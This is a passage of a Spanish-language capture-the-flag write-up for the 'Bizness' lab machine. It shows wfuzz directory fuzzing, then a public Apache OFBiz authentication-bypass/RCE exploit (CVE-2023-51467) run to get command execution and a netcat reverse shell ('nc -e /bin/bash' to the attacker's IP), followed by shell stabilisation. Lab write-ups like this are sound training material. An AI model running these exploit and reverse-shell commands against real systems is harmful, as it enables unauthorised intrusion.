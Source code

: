 Ocultamos todos que contengan mas de 1596 palabras con --hw=1596
```
wfuzz -c --hc=404,302 --hw=1596 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://bizness.htb/control/FUZZ
```

Y podemos encontrar la pagina de `login` asi que ingresamos a la pagina `https://bizness.htb/control/login` 
Nos mostrara una pagina de logeo con usuario y constraseña asi que de primeras buscamos usuario y contraseñas default de `ofbiz` y vemos que no nos permite, la han cambiado de un principio 

Empezamos a buscar exploit para `ofbiz` que encontramos de `CVE-2023-51467` La vulneravilidad permite al atacante omitir el paso de autenticación haciendo un `Server-Side Request Forgery (SSRF)` y `Pre-auth RCE` con la vulneravilidad `CVE-2023-49070` 

Dejo el primer repositorio que les va a servir de mucho :
- [Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)
En la carpeta (xdetection.py) de github podemos ver un poco sobre el detector en python 
Nos dirigimos a nuestra carpeta `content` y nos clonamos el repositorio 
```
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/
```

Y usamos la siguiente herramienta para saber si es vulnerable o no 
```
python3 xdetection.py --url https://bizness.htb --cmd 'whoami'
```

Si lo ejecutamos de esta manera de primera no observaremos nada, pero si nos abrimos otra terminal y nos ponemos en escucha con `tcpdump` 
```sh
tcpdump -i tun0 icmp -n  
```

Ejecutamos el siguiente exploit
```
python3 exploit.py --url https://bizness.htb --cmd 'ping -c 1 10.10.16.5'
```

Si obtenemos respuesta con ping significa que efectivamente funciono el exploit 

Ahora la idea para ganar acceso al sistema seria la siguiente
```sh
nc -nlvp 443
```

```sh
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.5 443'
```

Y listo con esto ya estariamos dentro de la maquina `10.10.11.252` 
Una vez dentro de la maquina realizamos la siguiente instucción para obtener una bash interactiva
```
script /dev/null -c bash 
```

Ahora salimos creamos una consola interactiva con la cual operar sin miedo que cuando hagamos `Ctrl + z` la shell se nos muera y estar de forma interactiva operando 
```
stty raw -echo; fg 
```
```
	reset xterm
```
